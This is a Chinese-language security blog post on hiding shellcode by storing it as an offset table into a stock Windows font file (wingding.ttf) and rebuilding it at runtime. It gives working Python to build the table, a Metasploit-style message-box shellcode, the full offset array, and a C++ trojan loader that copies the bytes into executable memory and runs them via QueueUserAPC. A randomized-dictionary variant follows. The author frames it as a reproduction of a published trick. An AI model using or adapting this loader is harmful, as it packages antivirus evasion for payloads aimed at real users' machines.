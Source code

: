# WhiteFile Offset Table Generate Shellcode

## 简介

这篇文章是我还比较菜的时候\(虽然现在也很菜\)，当时看到的时候惊为天人，大概说可以通过计算shellcode需要字符在白文件中的偏移位置，通过记录偏移位置，在不硬编码的情况下还原出shellcode，今天突然想起来，就复现一下。

## 流程

1. 寻找一个全windows都包含且不变的文件\(C:\Windows\Fonts\wingding.ttf\)
2. 遍历文件确认存在全字符\(0x00-0xff\)
3. 计算shellcode在文件内的偏移表
4. 基于偏移表还原shellcode



## 代码

计算偏移表的代码是用py写的，不是专业写算法的，这个计算可能比较low。

```text

dict = open('wingding.ttf','rb+').read();
char =0
for i in range(256):
        for p in range(len(dict)):
                if  ord(chr(dict[p])) == ord(chr(i)):
                        char +=1
                        print(char)
                        break

if char == 256:print("this file has full chars table");
```

![](../.gitbook/assets/image%20%28151%29.png)

通过一段已有的shellcode生成偏移表，我们古典主义脚本小子还是比较喜欢弹个窗。

```text

dict = open('wingding.ttf','rb+').read();

buf =  b""
buf += b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
buf += b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
buf += b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
buf += b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
buf += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
buf += b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
buf += b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
buf += b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
buf += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
buf += b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
buf += b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
buf += b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
buf += b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
buf += b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
buf += b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
buf += b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68"
buf += b"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c"
buf += b"\x24\x0a\x89\xe3\x68\x58\x20\x20\x20\x68\x4d\x53\x46"
buf += b"\x21\x68\x72\x6f\x6d\x20\x68\x6f\x2c\x20\x66\x68\x48"
buf += b"\x65\x6c\x6c\x31\xc9\x88\x4c\x24\x10\x89\xe1\x31\xd2"
buf += b"\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08"

char=0
offsettable=[];
for i in range(len(buf)):
	for p in range(len(dict)):
		if  ord(chr(dict[p])) == ord(chr(buf[i])):
			offsettable.append(p)
			break

#生成偏移表
if char == len(buf):print("shellcode offset tables generate success");
print(offsettable)

#测试还原shellcode
shellcode=[]
for i in offsettable:
	shellcode.append(dict[i])
```

![](../.gitbook/assets/image%20%28154%29.png)

可以还原出来，现在我们在c++把木马写出来。

```text
#include <stdio.h>
#include <Windows.h>



int main()
{	
	DWORD dwReadSize=0;
	HANDLE hFile = CreateFileA("C:\\Windows\\Fonts\\wingding.ttf", GENERIC_READ, OPEN_EXISTING, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD dwSize = GetFileSize(hFile, NULL);
	PCHAR pDict = (PCHAR)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	PCHAR lpBuffer = (PCHAR)VirtualAlloc(NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	ReadFile(hFile, pDict, dwSize, &dwReadSize, NULL);

	
	DWORD offsets[] = { 2741, 2231, 2569, 2741, 65, 203, 113, 48, 2899, 2707, 825, 48, 2845, 157, 2473, 2317, 11, 2473, 93, 363, 2473, 93, 282, 2473, 2059, 128, 2473, 2395, 95, 2473, 155, 146, 17, 1783, 2341, 64, 2173, 1, 629, 288, 19, 2215, 2473, 141, 203, 203, 2473, 2053, 83, 2473, 29, 549, 159, 1, 2255, 2473, 547, 1783, 2473, 2179, 95, 1, 2231, 721, 745, 14, 2473, 745, 2473, 1, 160, 48, 288, 48, 557, 135, 573, 645, 557, 65, 358, 2797, 387, 1717, 1, 82, 2231, 113, 80, 227, 203, 549, 2341, 19, 2473, 2179, 203, 1, 2231, 108, 2473, 363, 2089, 2473, 2179, 282, 1, 2231, 2473, 9, 2473, 1, 2315, 211, 12, 203, 282, 78, 2809, 2707, 128, 1885, 263, 211, 2399, 211, 2803, 156, 195, 2107, 421, 176, 2131, 2315, 1041, 288, 288, 288, 211, 2053, 9, 2761, 2395, 2771, 407, 126, 597, 282, 203, 2131, 2315, 195, 288, 288, 288, 211, 2053, 128, 156, 141, 141, 95, 1405, 156, 833, 47, 1915, 157, 156, 2341, 126, 173, 301, 11, 1421, 219, 151, 203, 131, 211, 43, 59, 288, 2149, 9, 211, 2803, 355, 2761, 2647, 2611, 62, 75, 597, 282, 203, 2131, 2315, 123, 288, 288, 288, 156, 221, 159, 63, 95, 156, 78, 110, 173, 209, 156, 62, 173, 126, 126, 48, 1421, 219, 151, 203, 131, 211, 721, 156, 63, 95, 95, 95, 156, 62, 13, 2059, 649, 156, 301, 221, 77, 95, 156, 221, 1903, 95, 108, 156, 31, 173, 141, 141, 48, 2845, 219, 28, 203, 23, 211, 19, 48, 2899, 2131, 13, 2125, 2131, 288, 258, 48, 557, 355, 288, 2149, 128 };
	for (int i = 0; i < sizeof(offsets)/sizeof(DWORD); i++)
	{
		lpBuffer[i] = pDict[offsets[i]];
	}
	

	HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);
	QueueUserAPC((PAPCFUNC)lpBuffer, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread, INFINITE);

	CloseHandle(hThread);
	CloseHandle(hFile);
	return 0;
}
```

可以看到还原出了shellcode。

![](../.gitbook/assets/image%20%28150%29.png)

![](../.gitbook/assets/image%20%28152%29.png)

脚本小子的任务完成了。

## 抽象成算法

这个时候，仔细详细我们真的需要这个作为字符字典的文件么，我们真的需要月亮么\(不好意思串戏了\)，如果我们找不到这也的文件怎么办，其实我们并不是真的需要这样一个字典，而且我确实没有找到从xp-win10不变的文件。

其实我们只是需要一张能作为字典的字符表，这样我们的这个思路就抽象成了凯撒密码算法（略略略），万物基于算法定律呗。

我们把这张替换表硬编码进木马内，就避免作为参照物的文件失效，具体代码如下：

```text
import random

buf =  b""
buf += b"\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"

dict = [i for i in range(256)]
random.shuffle(dict)


offsettable=[];
for i in range(len(buf)):
	for p in range(len(dict)):
		if  ord(chr(dict[p])) == ord(chr(buf[i])):
			offsettable.append(p)
			break

#生成偏移表
print("random dict generate success")
print(dict)
if len(offsettable) == len(buf):print("shellcode offset tables generate success");
print(offsettable)

#测试还原shellcode
"""

shellcode=[]
for i in offsettable:
	shellcode.append(dict[i])

"""
```

```text

```

## LINKS

{% embed url="https://www.freebuf.com/articles/system/190740.html" %}



